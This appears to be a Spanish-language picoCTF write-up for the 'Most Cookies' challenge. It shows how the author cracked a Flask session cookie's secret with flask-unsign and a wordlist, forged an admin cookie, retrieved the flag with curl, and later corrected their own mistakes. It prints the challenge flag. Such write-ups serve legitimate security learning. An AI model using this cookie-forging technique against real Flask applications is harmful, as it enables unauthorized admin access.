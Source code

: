 
## Reto
Most Cookies

## Descripcion
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/60f76192f6e1fea6f4e6e8c5fc9a6a27/server.py) [http://mercury.picoctf.net:44693/](http://mercury.picoctf.net:44693/

## Solucion
- Abrimos la pagina y nos da un cuadro de texto
- Al poner cualquier cosa nos genera una cookie encriptada con flask
- para desincreptarla usaremos flask-unsign de python
- al tratar de instalarlo nos marca error por lo que usaremos un entorno virtual
```
python -m venv ~/.venv 
source ~/.venv/bin/activate 
pip3 install flask-unsign
```
- como nos dieron el codigo fuente con todas las listas de palabras creamos `nano cookies.txt` y dentro ponemos la lista de todas las palabras posibles separadas por salto de linea
- usando esa lista aplicamos `flask-unsign --unsign --cookie "[cookie copiada]" --wordlist cookies.txt` y nos regresa la palabra secreta

- Con la palabra secreta ahora aplicamos `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]'`
  y nos regresa una cookie de admin

- Ahora aplicamos `curl -s [link de pagina]/display -H "Cookie: session=[cookie admin]" | grep pico` para que nos regrese la respuesta de admin y encontrar la bandera facil con un grep: **picoCTF{pwn_4ll_th3_cook1E5_dbfe90bf}**

## ALT
- correr un script que no me funciono :v
## Notas
- una cookie de flask no es muy segura y depende de como las configuramos
## Errores
### No se porque nomas me funciono una vez pero la bandera no sirvio y ya no volvio a servir

<img width="1047" height="589" alt="image" src="https://github.com/user-attachments/assets/f07d5ff1-218b-4517-8062-016569e29ef8" />

## Correcion
- al aplicar `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '[palabra secreta]'` estaba poniendo tambien la cookie copiada, y solo tenia que dar enter para que generara la cookie de admin
- Al aplicar el curl estaba usando el link copiado del discord, pero necesitaba copiar el que tenia en mi propio navegador
- Ahora me pregunta porque si sirvio 1 vez si lo tenia todo mal

## Referencias
[PicoCTF 2021 — Most Cookies - Private User HQ - Medium](https://medium.com/private-user-hq/picoctf-2021-most-cookies-7f3d8b6cd0b)
[picoCTF 2021 - [ Web ] - Most Cookies - YouTube](https://www.youtube.com/watch?v=ufs1xqSQCUM&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=66)
